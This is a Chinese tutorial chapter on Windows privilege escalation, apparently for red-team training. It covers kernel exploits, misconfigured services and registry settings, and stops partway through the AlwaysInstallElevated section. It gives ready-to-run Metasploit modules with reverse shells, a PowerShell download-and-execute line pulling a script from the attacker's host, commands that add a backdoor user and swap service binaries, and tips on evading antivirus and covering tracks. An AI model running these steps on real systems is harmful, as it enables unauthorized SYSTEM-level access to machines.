







# 第44章 Windows提权进阶

> **难度等级：🟠 高等级**
>
> **预计学习时间：180分钟**
>
> **本章看点：内核漏洞提权详解、服务配置错误提权（未引用路径、权限错误、注册表错误）、注册表提权（AlwaysInstallElevated、自动登录）、DLL劫持提权、计划任务提权、令牌窃取与模拟、UAC绕过、PrintNightmare、各种Potato提权、5个实战案例**

::: tip 说明
上一章我们学习了Windows提权的基础，
了解了提权的概念、Windows权限体系、
信息收集方法和辅助工具。

这一章我们深入学习各种具体的提权方法，
每一种方法都会详细讲解：
- 原理是什么
- 怎么检测
- 怎么利用
- 有什么注意事项

这些都是实战中非常实用的技巧，
掌握了这些，
大部分Windows系统的提权你都能搞定。

准备好了吗？
开始！
:::

---

## 📖 本章概述

::: tip 写在前面
提权是内网渗透的核心技能之一，
也是区分新手和老手的重要标志。

新手提权：
- 拿到Shell
- 找几个提权EXP
- 一个一个试
- 试不出来就放弃

老手提权：
- 拿到Shell
- 全面收集信息
- 分析可能的提权路径
- 按优先级逐一尝试
- 成功率很高

为什么差别这么大？
因为老手掌握了更多的提权方法，
而且知道在什么情况下用什么方法。

这一章我们就来学习各种具体的提权方法，
从最常见的服务配置错误，
到内核漏洞提权，

> 💡 **提权方法选择优先级（大白话版）**
>
> 很多人拿到Shell第一时间就去试内核EXP，这是错误的！
>
> 应该按照这个优先级来：
>
> 1️⃣ **配置错误提权**（最优先）
> - 就像在找"主人忘了锁的门"——安静、稳定、不容易蓝屏
> - 比如：服务路径没有引号、服务权限可以修改、注册表里的自动登录密码
> - 这些是最安全、最可靠的提权方式
>
> 2️⃣ **计划任务/服务提权**
> - 就像找到"定期自动运行的东西"，把自己的脚本塞进去
> - 比如：计划任务调用了一个可写的脚本
>
> 3️⃣ **令牌/模拟提权**
> - 就像"偷了别人的工牌"——冒充高权限用户
> - Potato系列就是典型
>
> 4️⃣ **内核漏洞提权**（最后选择）
> - 就像"用炸药炸墙"——可能成功，也可能把房子炸塌（蓝屏）
> - 风险最大，可能在关键时刻把服务器搞崩
> - 但也是最后的底牌
>
> **新手常犯的错误**：拿到Shell → 马上找内核EXP → 服务器蓝屏 → 被管理员发现 → 目标丢失
> **正确的做法**：信息收集 → 配置检查 → 找到"最温和"的提权方式 → 一击成功

从最常见的服务配置错误，
到内核漏洞提权，
再到令牌窃取、DLL劫持...
每一种都讲清楚原理和利用方法。

学完这一章，
你的提权水平会有质的飞跃。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 掌握常见内核漏洞提权的原理和利用
- [x] 熟练掌握服务配置错误提权（3种常见类型）
- [x] 掌握注册表相关的提权方法
- [x] 理解DLL劫持提权的原理和利用
- [x] 掌握计划任务提权的各种姿势
- [x] 学会令牌窃取与模拟提权
- [x] 了解常见的UAC绕过方法
- [x] 掌握PrintNightmare漏洞提权
- [x] 了解各种Potato提权的区别和使用场景
- [x] 能独立分析并完成Windows提权

---

## 💣 内核漏洞提权详解

### 1.1 内核漏洞提权原理

什么是内核漏洞提权？

简单说就是：
**利用操作系统内核的漏洞，
从普通用户权限提升到System权限。**

内核是操作系统的核心，
拥有最高的权限。
如果内核有漏洞，
我们就能利用这个漏洞，
让内核帮我们执行高权限的操作，
比如提升我们进程的权限。

**内核漏洞提权的特点：**

| 优点 | 缺点 |
|------|------|
| 成功率高（如果有对应漏洞） | 有蓝屏风险 |
| 直接拿到System权限 | 需要对应系统版本和补丁 |
| 利用方法成熟 | 容易被杀毒软件检测 |
| 很多现成的EXP | 新版系统越来越少 |

> 💡 **大白话说"内核漏洞提权"为什么是双刃剑**
>
> 内核漏洞提权，通俗理解就是：**利用操作系统自身的Bug，让你的普通权限程序"搭乘"系统的高权限通道。**
>
> 内核 = 操作系统的"心脏"，拥有最高权限。正常情况下：
> - 普通程序：敲门 → 内核检查权限 → 通过/拒绝
> - 内核漏洞利用：程序拿着一把"万能钥匙"（EXP）→ 直接走后门 → 内核被迫执行
>
> **但为什么说这是"双刃剑"？**
>
> 因为内核就像房子的**承重墙**——你在上面砸洞，房子可能会塌。
>
> 具体来说：
> - EXP利用了内核的一个Bug（比如内存越界写），把普通程序的权限标志改成SYSTEM
> - 但这个操作是在内核空间里"动手术"，稍有不慎就会引发**内核崩溃（蓝屏）**
> - 蓝屏 = 服务器重启 = 你暴露了 + 可能丢失Shell
>
> **实战经验**：
> - 护网行动中，拿到Shell后**先尝试配置错误提权**（安全无风险）
> - 配置错误都试过了、没有可利用的，才用内核EXP
> - 用内核EXP之前，务必确认系统版本和补丁级别完全对应
> - 内网中可以"冒风险"，外网打点阶段不建议用（打蓝了就前功尽弃）

**提权的一般流程：**
1. 收集系统版本和补丁信息
2. 对比漏洞数据库，找出可能的漏洞
3. 找到对应的EXP
4. 上传到目标系统
5. 执行EXP，获得System权限
6. 验证结果

**图44-1 Windows内核漏洞提权流程图**



### 1.2 经典内核漏洞：MS17-010（永恒之蓝）

这个我们前面已经接触过了，
这里再简单回顾一下。

**漏洞信息：**
- 编号：MS17-010 / CVE-2017-0143~0148
- 影响：Windows XP/7/8.1/10 / Server 2003/2008/2012/2016
- 原理：SMB协议的远程代码执行漏洞
- 威力：可以远程直接获取System权限

**利用方法（远程）：**
```bash
# MSF利用模块
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 目标IP
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 你的IP
run
```

**本地提权版本：**
MS17-010主要是远程漏洞，
但也可以用于本地提权，
不过一般都是远程用的。

### 1.3 经典内核漏洞：MS16-032

**漏洞信息：**
- 编号：MS16-032 / CVE-2016-0099
- 影响：Windows Vista ~ 10 / Server 2008 ~ 2012 R2
- 原理：Secondary Logon服务的权限提升漏洞
- 类型：本地提权漏洞

**利用条件：**
- 目标系统没有打KB3139914补丁
- 有一个可以交互的Shell

**利用方法：**

方法一：PowerShell版本
```powershell
IEX (New-Object Net.WebClient).DownloadString("http://你的IP/ms16-032.ps1")
Invoke-MS16032 -Command "cmd.exe /k whoami"
```

方法二：MSF模块
```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
run
```

**注意事项：**
- 有32位和64位版本，注意对应
- 可能需要多次尝试才能成功
- 有一定蓝屏风险（概率不高）

### 1.4 经典内核漏洞：MS15-051

**漏洞信息：**
- 编号：MS15-051 / CVE-2015-1701
- 影响：Windows 7 / Server 2008 R2
- 原理：Win32k.sys的漏洞
- 类型：本地提权漏洞

**利用方法：**
```bash
# MSF模块
use exploit/windows/local/ms15_051_client_copy_image
set SESSION 1
run
```

这个漏洞在Win7上很常见，
如果目标没打补丁，
成功率很高。

### 1.5 经典内核漏洞：MS11-046

**漏洞信息：**
- 编号：MS11-046 / CVE-2011-1249
- 影响：Windows XP / 2003 / 7 / 2008
- 原理：afd.sys驱动的漏洞
- 类型：本地提权漏洞

**特点：**
- 非常经典的老漏洞
- XP和2003上经常遇到
- 稳定性很好，不容易蓝屏

**利用方法：**
```bash
# MSF模块
use exploit/windows/local/ms11_046_afd_dangling_pointer
set SESSION 1
run
```

### 1.6 PrintNightmare（打印服务漏洞）

**漏洞信息：**
- 编号：CVE-2021-34527 / CVE-2021-1675
- 影响：几乎所有Windows版本（当时）
- 原理：Print Spooler服务的漏洞
- 类型：本地/远程提权漏洞

这个漏洞当年非常火，
因为影响范围太大了，
而且利用方式很多。

**本地提权利用：**

方法一：PowerShell版本
```powershell
# 导入脚本
Import-Module .\PrintNightmare.ps1

# 执行提权（添加用户）
Invoke-Nightmare -NewUser "hacker" -NewPassword "P@ssw0rd"
```

方法二：C语言版本
```cmd
PrintNightmare.exe C:\path\to\evil.dll
```

方法三：MSF模块
```bash
use exploit/windows/local/cve_2021_1675_spooler
set SESSION 1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

**注意：**
- 这个漏洞需要Print Spooler服务开启
- 大部分Windows默认开启这个服务
- 微软后来出了补丁，但绕过也不少

### 1.7 内核漏洞提权的注意事项

**1. 一定要对应版本和架构**
- 32位EXP不能在64位系统上用
- Win7的EXP不能在Win10上用
- 打了补丁就不能用了

**2. 注意蓝屏风险**
- 内核漏洞利用失败可能导致蓝屏
- 重要系统先在测试机上试
- 护网行动中谨慎使用，打蓝屏可能扣分

**3. 先检测，后利用**
- 用Windows-Exploit-Suggester等工具先检测
- 不要上来就瞎试
- 试错成本很高

**4. 注意杀毒软件**
- 很多知名的提权EXP都会被杀软查杀
- 可能需要免杀处理
- 或者用更冷门的漏洞

**图44-2 经典Windows内核提权漏洞对比图**



---

## ⚙️ 服务配置错误提权

### 2.1 服务配置错误概述

服务配置错误是最常见的提权方式之一，
也是最稳妥的方式之一。

为什么常见？
因为很多软件安装的时候，
服务配置不规范，
留下了安全隐患。

为什么稳妥？
因为利用的是配置错误，
不是内核漏洞，
几乎不会导致系统崩溃。

服务配置错误提权主要有三种：
1. **未引用的服务路径**（Unquoted Service Paths）
2. **服务二进制文件权限错误**
3. **服务注册表权限错误**

下面我们一个个来讲。

**图44-3 服务配置错误提权三大类型对比图**



### 2.2 未引用的服务路径提权

这个我们上一章提过，
这里详细讲一下。

**原理：**
如果服务的可执行文件路径中包含空格，
并且没有用引号括起来，
Windows在解析的时候会有歧义。

比如路径是：
```
C:\Program Files\My App\service.exe
```

Windows会依次尝试：
1. `C:\Program.exe`
2. `C:\Program Files\My.exe`
3. `C:\Program Files\My App\service.exe`

如果我们能在前两个路径中的任意一个
创建对应的exe文件，
那服务启动的时候，
就会执行我们的恶意程序，
而不是原来的程序。

因为服务一般是System权限运行的，
所以我们的程序也会以System权限运行。

> 💡 **大白话说"未引用的服务路径"为什么能提权**
>
> 这个漏洞的原理其实非常简单，用一句话就能说清楚：
>
> 如果一个服务路径是 `C:\Program Files\My App\service.exe`（有空格但没有引号），
> Windows在启动这个服务时会"犯傻"——它分不清空格是路径的一部分还是分隔符。
>
> 所以Windows会按以下顺序"猜"：
> 1. 先试试 `C:\Program.exe` —— 如果有这个文件，就执行这个！
> 2. 再试试 `C:\Program Files\My.exe` —— 如果有，就执行这个！
> 3. 最后才找到 `C:\Program Files\My App\service.exe`
>
> **突破口就在第1步和第2步**：如果我们有权限在 `C:\` 或 `C:\Program Files\` 下创建文件，
> 那就创建 `Program.exe` 或 `My.exe` —— 里面是我们自己的恶意代码！
> 服务下次启动时，Windows就会优先执行我们的恶意程序，而不是原来的 `service.exe`。
>
> 用生活场景来理解：
> - 你去一家公司找人，前台问："你找谁？"
> - 你说："张经理"
> - 公司有"张经理A"和"张经理B"两个人
> - 前台没有确认全名，直接把"张经理A"叫过来了
> - 如果你提前"冒充"了张经理A，你就能进入公司内部
>
> **为什么这个漏洞这么好用？**
> 1. 不需要内核EXP → 不会蓝屏
> 2. 只需要能写文件的权限（在低权限目录）→ 门槛低
> 3. 服务重启时自动触发 → 不需要用户交互
> 4. 以SYSTEM权限运行 → 直接拿到最高权限

**检测方法：**

方法一：手动检测
```cmd
# 查看所有服务的路径
wmic service get name,displayname,pathname,startmode

# 找路径中有空格但没有引号的
# 手动筛选
```

方法二：PowerUp
```powershell
Get-ServiceUnquoted
```

方法三：WinPEAS
```cmd
winPEASx64.exe servicesinfo
```

**利用条件：**
1. 服务路径包含空格且没有引号
2. 我们对前面的某个目录有写入权限
3. 能重启服务（或者等系统重启）

**利用步骤：**

1. 找到有漏洞的服务
2. 检查路径中每个目录的权限
3. 在能写入的目录创建恶意exe
4. 重启服务
5. 获得System权限

**示例：**

假设有一个服务：
```
服务名：VulnService
路径：C:\Program Files\Vulnerable App\service.exe
```

检查权限：
```cmd
icacls "C:\Program Files"
# 普通用户没有写入权限

icacls "C:\Program Files\Vulnerable App"
# 普通用户有写入权限！
```

那么我们可以在`C:\Program Files\Vulnerable App\`
目录下创建`Vulnerable.exe`吗？
不对，等一下...

让我们再理一理：
路径是`C:\Program Files\Vulnerable App\service.exe`

Windows会依次尝试：
1. `C:\Program.exe` → 我们能写吗？
2. `C:\Program Files\Vulnerable.exe` → 我们能写吗？
3. `C:\Program Files\Vulnerable App\service.exe` → 原路径

如果`C:\Program Files\`我们不能写，
但`C:\Program Files\Vulnerable App\`我们能写，
那我们可以创建`C:\Program Files\Vulnerable.exe`吗？
不行，因为`Vulnerable.exe`在`C:\Program Files\`下面，
我们对`C:\Program Files\`没有写入权限。

哦，对，我搞错了。
让我重新说：
- 第一个候选：`C:\Program.exe` → 在C:\根目录
- 第二个候选：`C:\Program Files\Vulnerable.exe` → 在C:\Program Files\下
- 第三个候选：`C:\Program Files\Vulnerable App\service.exe` → 原路径

所以如果我们对`C:\Program Files\`有写入权限，
就能创建`Vulnerable.exe`。
如果对C:\根目录有写入权限，
就能创建`Program.exe`。

**实际中最常见的是第三种情况吗？**
不，实际中最常见的是：
服务安装在非系统盘，
比如：
```
D:\My Tools\service.exe
```
然后D盘或者D:\My Tools\目录
普通用户有写入权限。

这种情况就很容易利用了。

**修复方法：**
给服务路径加上引号：
```
"C:\Program Files\My App\service.exe"
```

**图44-4 未引用服务路径解析歧义原理图**



### 2.3 服务二进制文件权限错误

**原理：**
如果服务的可执行文件（.exe）
普通用户有修改或替换的权限，
那我们就可以把原来的exe换成我们的恶意exe，
然后重启服务，
就能获得System权限。

这个很直观，对吧？
服务运行的时候会执行那个exe，
我们把exe换成我们的，
服务就会执行我们的程序，
而且是服务的权限（通常是System）。

**检测方法：**

方法一：手动检测
```cmd
# 先获取所有服务的路径
wmic service get name,pathname

# 然后检查每个exe的权限
icacls "C:\path\to\service.exe"
```

方法二：PowerUp
```powershell
Get-ServicePermissions
Get-ModifiableServiceFile
```

方法三：WinPEAS
```cmd
winPEASx64.exe servicesinfo
```

**利用条件：**
1. 对服务的exe文件有写入/修改权限
2. 能重启服务

**利用步骤：**
1. 找到有漏洞的服务
2. 备份原来的exe（可选）
3. 用我们的恶意exe替换原来的exe
4. 重启服务
5. 获得System权限
6. （可选）恢复原来的exe，擦屁股

**示例：**

```cmd
# 1. 找到服务
sc qc VulnService
# 显示路径是 C:\Tools\VulnService.exe

# 2. 检查权限
icacls "C:\Tools\VulnService.exe"
# BUILTIN\Users:(I)(F) —— 普通用户完全控制！

# 3. 备份原文件
copy "C:\Tools\VulnService.exe" "C:\Tools\VulnService.exe.bak"

# 4. 替换成我们的恶意exe
copy /Y evil.exe "C:\Tools\VulnService.exe"

# 5. 重启服务
sc stop VulnService
sc start VulnService

# 6. 提权成功！
```

**注意事项：**
- 替换前最好备份原文件，用完恢复
- 注意服务的启动类型，如果是自动的，系统重启会再触发
- 有些服务有守护进程，替换了会被恢复

### 2.4 服务注册表权限错误

**原理：**
服务的配置信息存在注册表里，
通常在：
```
HKLM\SYSTEM\CurrentControlSet\Services\服务名\
```

如果我们对这个注册表项有写入权限，
那我们就可以修改服务的配置，
比如：
- 修改ImagePath（服务执行的程序路径）
- 修改ServiceDll（服务加载的DLL）
- 把服务的启动类型改成自动
- ...

这样我们就能让服务执行我们的恶意程序，
从而提权。

**检测方法：**

方法一：手动检测
```cmd
# 查看某个服务的注册表权限
# 用regedit看，或者用工具
# 手动比较麻烦
```

方法二：PowerUp
```powershell
Get-ServiceRegPermissions
Get-ModifiableServiceRegistry
```

方法三：WinPEAS
```cmd
winPEASx64.exe servicesinfo
```

**利用条件：**
1. 对服务的注册表项有写入权限
2. 能重启服务

**利用步骤：**
1. 找到有漏洞的服务
2. 修改注册表中的ImagePath，指向我们的恶意exe
3. 重启服务
4. 获得System权限
5. （可选）恢复注册表

**示例：**

```cmd
# 1. 找到有问题的服务注册表
# 假设我们对 HKLM\SYSTEM\CurrentControlSet\Services\VulnService 有写入权限

# 2. 修改ImagePath
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnService" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\Temp\evil.exe" /f

# 3. 重启服务
sc stop VulnService
sc start VulnService

# 4. 提权成功！

# 5. 恢复（可选）
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnService" /v ImagePath /t REG_EXPAND_SZ /d "原来的路径" /f
```

**另一种利用方式：修改ServiceDll**

有些服务是通过svchost.exe加载的，
这种服务有个ServiceDll参数，
指向要加载的DLL。

如果能修改这个DLL的路径，
或者替换这个DLL文件，
也能提权。

---

## 📝 注册表提权

### 3.1 AlwaysInstallElevated

**原理：**
AlwaysInstallElevated是一个注册表配置，
如果这个配置开启了，
那么任何用户都可以以System权限
安装MSI安装包。

正常情况下，
安装软件需要管理员权限，
但是如果开启了AlwaysInstallElevated，
普通用户也能以最高权限安装MSI。

这是微软为了方便企业部署软件搞的，
但如果配置不当，
就成了提权的捷径。

**检测方法：**

方法一：手动检测
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
**注意：两个都要是1才行！**

方法二：PowerUp
```powershell
Get-RegistryAlwaysInstallElevated
```

方法三：WinPEAS
```cmd
winPEASx64.exe windowscreds
```

**利用方法：**

